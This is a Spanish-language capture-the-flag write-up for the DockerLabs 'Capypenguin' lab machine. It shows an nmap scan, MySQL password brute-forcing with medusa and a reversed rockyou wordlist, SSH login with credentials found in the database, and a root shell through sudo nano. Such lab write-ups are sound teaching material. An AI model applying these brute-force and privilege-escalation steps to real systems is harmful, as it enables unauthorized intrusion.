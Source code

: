 Máquina Capypenguin

Inciamos con nmap para el reconocimiento inicial:

```
# Nmap 7.94SVN scan initiated Fri Apr 19 08:55:08 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-19 08:55:08 CEST for 1s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos un ssh un http y un mysql, vamos a empezar enumerando el http:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/cb7ef27c-9c30-453f-bdd9-ed7738de3c71)

Bueno teniendo en cuenta lo que nos dice la páguina web:

```
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

Ahora hacemos la explotación con medusa:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/c594fb6a-0121-4880-866f-0080f0f46856)

y nos encuentra la contraseña de la base de datos mysql, vamos a meternos dentro a ver que hay:

Dentro de la base de datos encontramos unas credenciales, vamos a probarlas en el ssh:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/18f615ea-70dd-43a5-bb23-3e75adadc02b)


y efectivamente estamos dentro del ssh, iniciamos la escalada:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/bf2d3b83-0c1f-47f7-807b-01d23ccb41b9)


Al poner el comando sudo -l me encuentro que nano lo puedo utilizar como super usuario:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/2e27727f-398b-421c-879e-745ed828cf0e)


Dificultado 1/5


